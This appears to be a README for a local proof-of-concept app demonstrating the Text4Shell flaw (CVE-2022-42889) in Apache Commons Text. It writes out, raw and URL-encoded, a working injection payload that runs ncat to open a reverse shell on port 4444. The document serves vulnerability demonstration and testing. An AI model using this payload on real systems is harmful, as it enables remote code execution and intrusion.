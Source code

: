 # CVE-2022-42889 Text4Shell
This vulnerability is found in Apache Commons Text v1.5-1.9 and allows a remote attacker to execute arbitrary code IF user controlled input makes its way directly into a `StringSubstituter` which is fairly rare to find in the wild.

The payload used in this POC is:
`${script:javascript:java.lang.Runtime.getRuntime().exec('ncat -e /bin/bash 0.0.0.0 4444')}`

Which looks like this when part of an HTTP GET request:
`http://localhost:8080/Text4Shell/?search=$%7Bscript:javascript:java.lang.Runtime.getRuntime().exec(%27ncat%20-e%20/bin/bash%200.0.0.0%204444%27)%7D`

The app was built in Eclipse, you can follow the tutorial on [my website](http://localhost:1313/posts/text4shell/) if you want to build, run and test it yourself locally.

# Demo

https://user-images.githubusercontent.com/58807068/198384946-3a8736d9-64c6-4fb9-a2a0-47bf8627ffda.mp4
